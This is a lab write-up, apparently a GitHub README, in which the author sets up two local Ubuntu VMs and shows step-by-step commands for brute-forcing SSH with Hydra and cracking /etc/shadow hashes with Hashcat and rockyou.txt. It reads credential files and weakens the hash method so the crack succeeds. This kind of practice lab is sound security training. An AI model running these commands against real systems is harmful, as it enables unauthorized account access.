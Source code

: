 # Password Cracker 

This project aims to use the tools Hydra and Hashcat to simulate a password cracking attack 

## HYDRA ON SSH

### STEP 1: SETUP UP 2 UBUNTU VMs

#### SERVER 1 (Attacker)

Install Hydra: `sudo apt update` `sudo apt install hydra -y`

Install Nmap: `sudo apt install nmap -y`

#### SERVER 2 (Target)

Install SSH: `sudo apt update` `sudo apt install openssh-server -y`

### STEP 2: CREATE TEST USER WITH WEAK PASSWORD (In Target)

Command used: `sudo  adduser adminuser`
** Password was set to: password123 **

### STEP 3: START SSH SERVER

Command used: `sudo systemctl start ssh` 

### STEP 4: FIND TARGET VM'S IP ADDRESS (In Attacker)

Find subnet of VM: `ip a`
The  subnet was 192.168.56.101/24

![using command to check ip](images/ip_a.png)

Scan subnet with Nmap: `nmap -sn 192.168.56.101/24  `

Scan IPs for open ports: `nmap -p 22 --open `

![scanning ip](images/scanning.png)
 
### STEP 5: CREATE A WORDLIST FILE

Command used: `touch password.txt`

The file contained a list of possible passwords

![password list](images/passwords.png)

### STEP 6: LAUNCH HYDRA ATTACK

Command used: `hydra -l adminuser -P password.txt ssh://`

![successful use of hydra](images/hydra.png)

## USING HASHCAT

### STEP 1: DOWNLOADING TOOLS

Download Hashcat: `sudo apt install hashcat`

Download John the Ripper: `sudo apt install john`

Download wordlist from github: `wget https://github.com/brannondorsey/naive-hashcat/releases/download/data/rockyou.txt`

### STEP 2: CREATE A FAKE USER

Command used: `sudo adduser admin456`

Password was set to `christopher` which is in the rockyou.txt file

### STEP 3: EXTRACT HASH FILES

Extract user account information

Command used: `sudo cat /etc/passwd > useracct.txt`

![User deatails](images/user.png)

Extract real password hashes 

Command used: `sudo cat /etc/shadow > hashes.txt`

![Getting the hash](images/hash.png)

Use unshadow to combine both into a usable format of username:hash

Command used: `unshadow useracct.txt hashes.txt > final.txt`

![Unshadow](images/final.png)

### STEP 4: RUN HASHCAT

Command used `hashcat -m 1800 -a 0 -o password.txt final.txt rockyou.txt`

### STEP 5: OPEN PASSWORD FILE

Command used: `nano password.txt`

Password Christopher identified succesful use of hashcat
 
![Successful use of hashcat](images/thepass.png)

**NOTE:** hashcat cannot crack Yescrypt hashes which are used by most updated ubuntu systems so I had to change my system configurations temporarily and change the crypt method for the same password
Command used: `echo "admin456:christopher" | sudo chpasswd --crypt-method=SHA512`

  
